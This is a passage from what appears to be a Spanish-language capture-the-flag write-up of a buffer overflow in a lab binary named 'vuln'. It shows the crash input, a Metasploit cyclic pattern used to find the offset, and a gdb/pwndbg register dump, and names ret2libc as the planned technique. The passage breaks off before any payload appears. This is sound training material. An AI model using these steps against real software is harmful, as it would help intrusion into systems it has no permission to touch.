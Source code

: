 ```
Escribe tu nombre: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Vemos que nos da un `Segmentation fault` por lo que podremos hacerle `Buffer Overflow`.

Si comprobamos si `gdb` esta instalado, vemos que si lo esta:

```shell
gdb -h
```

Por lo que podremos hacerlo directamente en la propia maquina victima.

### GDB

```shell
gdb -q ./vuln
```

Dentro del `gdb` con el binario cargado vamos a probar a realizar una explotación de `ret2libc`, lo que implica el uso de funciones de la biblioteca estándar de `C` (como `system`, `execve`, o `exit`) para ejecutar un código malicioso (en este caso, obtener una `shell`)

### Obtener el offset del binario

En nuestro `kali` nos tendremos que llevar el binario para saber el `offset` de forma mas sencillita, por lo que abriremos un server de `python3` en la maquina y nos lo pasaremos al `kali` con `wget` una vez que ya lo tengamos instalaremos la herramienta para el `gdb` llamada `pwndbg`, una vez echo todo esto, haremos lo siguiente:

```shell
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400 
```

Info:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A
```

Dentro del `gdb` ejecutaremos `r` e insertaremos el patron que hemos creado anteriormente, por lo que veremos esto:

```
Starting program: /home/kali/Desktop/insanity/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Escribe tu nombre: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2A

Program received signal SIGSEGV, Segmentation fault.
0x0000000000401189 in vuln ()
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
───────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────────────────
 RAX  0x7fffffffe060 ◂— 0x6141316141306141 ('Aa0Aa1Aa')
 RBX  0x7fffffffe208 —▸ 0x7fffffffe4f4 ◂— '/home/kali/Desktop/insanity/vuln'
 RCX  0x7ffff7f968e0 (_IO_2_1_stdin_) ◂— 0xfbad2288
 RDX  0
 RDI  0x7ffff7f98720 (_IO_stdfile_0_lock) ◂— 0
```